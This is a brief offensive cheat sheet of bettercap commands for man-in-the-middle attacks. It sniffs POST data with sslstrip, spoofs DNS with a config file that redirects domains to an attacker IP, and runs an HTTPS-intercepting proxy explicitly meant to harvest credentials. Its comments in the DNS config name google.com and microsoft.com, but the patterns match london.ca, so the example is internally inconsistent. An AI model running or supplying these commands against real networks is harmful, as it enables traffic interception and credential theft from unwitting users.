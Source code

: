 
Sniffs POSTS using bettercap and sslstrip
-----------------------------------------
```
# Does not really work well on modern TLS implementations (might be worth a try though....)
bettercap -T 10.10.10.5 --proxy -P POST
```
Intercept DNS traffic 
---------------------
```
# Create config file as below (name the file dns.conf)

# Empty lines or lines starting with # will be ignored.
# redirect *.google.com to the attacker ip address
10.10.10.170 .*london\.ca
# redirect *.microsoft.com to 10.10.10.10
10.10.10.6 .*london\.ca

# Run bettercap 
bettercap --dns ./dns.conf
```
```
MITM SSL/TLS certificate (user will get cert warning) to gather creds
---------------------------------------------------------------------
bettercap -T 10.10.10.5 -X --proxy-https
```
